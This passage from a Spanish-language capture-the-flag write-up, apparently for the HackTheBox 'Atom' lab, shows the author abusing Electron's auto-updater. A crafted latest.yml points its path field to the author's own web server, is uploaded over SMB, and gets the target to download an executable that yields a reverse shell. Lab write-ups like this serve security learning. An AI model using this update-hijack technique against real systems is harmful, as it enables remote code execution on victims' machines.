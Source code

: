Tomando nuestro archivo `latest.yml` me fui pa la web a buscar ejemplos de él, llegamos a este:

* [Auto Update - Staged Rollouts, Electron Build Docs](https://www.electron.build/auto-update#staged-rollouts).

En él tenemos esta estructura:

![340google_electron_docs_latestYML](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340google_electron_docs_latestYML.png)

Así que la tome y empece a jugar con ella, quitando así el apartado **files** que había antes (y como **stagingPercentage** no estaba en el artículo inicial, también lo quite):

```yml
version: 1.2.3
path: try\'now.exe
sha512: 0Wxg/xq3XPmrHevFPBwR4aSmnc8b+5gaKB9HuEAZcBXghS2MaDblK3lRPOpCEMiqe5wFI2ZxMQ7Jc7M2JSTF8Q==
```

Pero nadita de nadita...

En un momento se me dio por probar colocar una ruta hacia algún servidor web en **path**, ahí me cambio la cara:

Levantamos el servidor web:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y ahora nuestro archivo `latest.yml` quedaría así:

```yml
version: 1.2.3
path: http://10.10.14.103:8000/try'now.exe
sha512: 0Wxg/xq3XPmrHevFPBwR4aSmnc8b+5gaKB9HuEAZcBXghS2MaDblK3lRPOpCEMiqe5wFI2ZxMQ7Jc7M2JSTF8Q==
```

Lo subimos al servidor **SMB**:

```bash
smb: \client2\> put latest.yml
```

Y en nuestro servidor web recibimos:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.237 - - [23/Jun/2021 25:25:25] code 404, message File not found
10.10.10.237 - - [23/Jun/2021 25:25:25] "GET /try'now.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [23/Jun/2021 25:25:25] "GET /try%27now.exe HTTP/1.1" 200 -
```

Opa opa opaaaa, vaya cosa extrañaaaa, peeero tenemos respuesta (:

Yyyy en nuestro listener que teníamos de antes recibimooooooooooooooooooooooooooos:

![340bash_jasonRevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340bash_jasonRevSH.png)
